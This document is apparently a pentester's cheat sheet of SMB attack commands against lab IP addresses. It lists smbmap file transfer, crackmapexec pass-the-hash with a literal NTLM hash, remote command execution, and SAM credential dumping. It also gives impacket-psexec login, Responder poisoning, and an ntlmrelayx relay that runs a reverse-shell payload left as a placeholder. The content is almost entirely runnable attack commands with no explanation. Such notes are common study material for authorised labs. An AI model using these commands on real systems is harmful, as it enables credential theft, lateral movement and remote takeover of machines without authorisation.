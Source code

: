
Downloading files from share
```shell-session
smbmap -H 10.129.14.128 --download "notes\note.txt"
```

Uploading file to share
```shell-session
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

Login to smb with PTH
```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

Executing commands over smb with crackmapexec
```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

Extracting SAM Database
```shell-session
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

Connecting to smb with impacket
```shell-session
impacket-psexec administrator:'Password123!'@10.10.110.17
```

Forced auth attack with responder via poisoning
```shell-session
sudo responder -I ens33
```

Passing captured hashes using impacket

```shell-session
Must turn off smb


> cat /etc/responder/Responder.conf | grep 'SMB ='

> impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

Establish reverse shell 

> impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c "POWERREVSHELLCODE"
```


